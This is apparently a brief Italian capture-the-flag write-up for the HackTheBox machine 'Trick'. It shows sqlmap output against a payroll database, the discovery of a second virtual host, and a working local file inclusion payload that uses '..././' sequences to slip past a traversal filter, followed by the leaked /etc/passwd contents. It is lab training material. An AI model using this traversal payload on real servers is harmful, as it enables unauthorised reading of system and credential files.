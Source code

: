do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
0
[14:47:48] [ERROR] unable to retrieve the number of columns for table 'users' in database 'payroll.db'
[14:47:48] [WARNING] unable to retrieve column names for table 'users' in database 'payroll.db'
do you want to use common column existence check? [y/N/q] N
[14:47:48] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/preprod-payroll.trick.htb'                                                                                                             

[*] ending @ 14:47:48 /2022-10-09/

-------------------

Ho scoperto dal file php che la macchina ospita un altro virtual host:
http://preprod-marketing.trick.htb/

-------
Ho scoperto che il parametro page è vulnerabile a local file inclusion, basta fare una richiesta del genere su burp:
/index.php?page=/..././..././..././..././etc/passwd

Output:
HTTP/1.1 200 OK

Server: nginx/1.14.2

Date: Mon, 10 Oct 2022 18:03:46 GMT

Content-Type: text/html; charset=UTF-8

Connection: close

Content-Length: 2351



root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
tss:x:105:111:TPM2 software stack,,,:/var/lib/tpm:/bin/false
dnsmasq:x:106:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:108:114:RealtimeKit,,,:/proc:/usr/sbin/nologin
pulse:x:109:118:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
speech-dispatcher:x:110:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
saned:x:112:121::/var/lib/saned:/usr/sbin/nologin
colord:x:113:122:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
